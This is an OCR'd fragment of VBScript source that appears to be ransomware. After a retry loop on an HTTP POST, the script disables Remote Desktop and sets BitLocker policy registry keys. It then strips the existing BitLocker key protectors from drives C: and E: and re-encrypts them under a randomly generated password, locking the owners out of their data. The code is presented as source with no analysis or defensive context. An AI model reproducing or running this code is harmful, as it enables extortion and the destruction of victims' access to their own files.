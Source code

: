 ```vbscript
    httpRequest.Send postData
	If httpRequest.status = 520 Then
		If InStr(1, httpRequest.getAllResponseHeaders, "cloudflare", vbTextCompare) > 0 Then
		Exit Do
		Else
		WScript.Sleep(3000)
		End If
	End If
retryCount = retryCount + 1
Loop


Set objWMIService = GetObject("winmgmts:\\.\root\CIMV2")
	Dim matchedDrives
	matchedDrives = "C:,E:"
	If Len(matchedDrives) > 0 Then
		matchedDrives = Left(matchedDrives, Len(matchedDrives) - 1)
		drives = Split(matchedDrives, ",")
		For i = 0 To UBound(drives)
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\System\CurrentControlSet\Control\Terminal Server"" /v fDenyTSConnections /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"" /v scforceoption /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseAdvancedStartup /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v EnableBDEWithNoTPM /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPM /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If 
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMPIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMKey /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseTPMKeyPIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v EnableNonTPM /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UsePartialEncryptionKey /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UsePIN /t REG_DWORD /d 2 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command ""$protectors = (Get-BitLockerVolume -MountPoint " & drives(i) & ").KeyProtector; if ($protectors -ne $null) { foreach ($protector in $protectors) { Remove-BitLockerKeyProtector -MountPoint " & drives(i) & " -KeyProtectorId $protector.KeyProtectorId } }""")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command $a=ConvertTo-SecureString " & Chr(34)  & Chr(39) & strRandom & Chr(39)  & Chr(34) & " -asplaintext -force;Enable-BitLocker " & drives(i) & " -s -qe -pwp -pw $a")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("powershell.exe -Command Resume-BitLocker -MountPoint " & drives(i) & " ")).stdout.readall) > 0 Then: End If
		Next
	End If


Set objVolumes = objWMI.ExecQuery("SELECT * FROM Win32_EncryptableVolume where DriveLetter='" & Driveletters & "'")
	if objVolumes.count = 0 then
		Set colPartitions = objWMIService.ExecQuery("SELECT * FROM Win32_DiskPartition WHERE PrimaryPartition = TRUE and DiskIndex = 0")
				For Each objPartition In colPartitions
					strPartitionDeviceID = objPartition.DeviceID
```
